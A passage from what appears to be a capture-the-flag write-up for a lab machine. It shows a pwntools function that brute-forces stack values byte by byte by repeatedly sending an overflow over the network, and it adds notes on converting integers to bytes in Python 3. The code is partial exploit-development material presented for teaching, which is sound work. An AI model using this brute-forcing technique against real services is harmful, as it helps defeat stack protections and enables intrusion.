     
    def brute_word(buff, num_bytes, obj, assumed=b''):
    
        start = time.time()
        result = assumed
        with log.progress(f'Brute forcing {obj}') as p:
            for i in range(num_bytes):
                current = '0x' + ''.join([f'{x:02x}' for x in result[::-1]]).rjust(16,'_')
                p.status(f'Found {len(result)} bytes: {current}')
                byte = None
                context.log_level = 'error'  # Hide "Opening connection" and "Closing connection" messages
                while byte == None:          # If no byte found, over range again
                    byte = get_next_byte(buff + result, range(0,255))
                result = result + byte
                context.log_level = 'info'   # Re-enable logging
            p.success(f'Finished in {time.time() - start:.2f} seconds')
    
        log.success(f"{obj}:".ljust(20,' ') + f"0x{u64(result):016x}")
        return result
    

In `get_next_byte`, for each byte, it opens a connection, sends the overflow,
and if it succeeds in getting back the message, it returns the byte. Otherwise
it tries the next byte. `brute_word` just handles looping over a given number
of bytes until it gets a full word.

Because I’m using Python3, I have to be careful with how I handle bytes coming
from an int. It’s tempting to do something like `chr(i).encode()`, which works
with lower numbers:

    
    
    >>> chr(80).encode()
    b'P'
    >>> chr(127).encode()
    b'\x7f'
    

However, for any character non-ascii (128 or greater), it adds a second byte:

    
    
    >>> chr(253).encode()
    b'\xc3\xbd'
    

`i.to_bytes(1,'big')` works, where the endian can be `big` or `little`, since
it’s only one byte.

    
    
    >>> x = 127; x.to_bytes(1,'big')
    b'\x7f'
    >>> x = 253; x.to_bytes(1,'big')
    b'\xfd'
    

I also had fun playing with `log.progress`. It allows me to make a live
updating line during the loop:

![](https://0xdfimages.gitlab.io/img/rope-brute.gif)
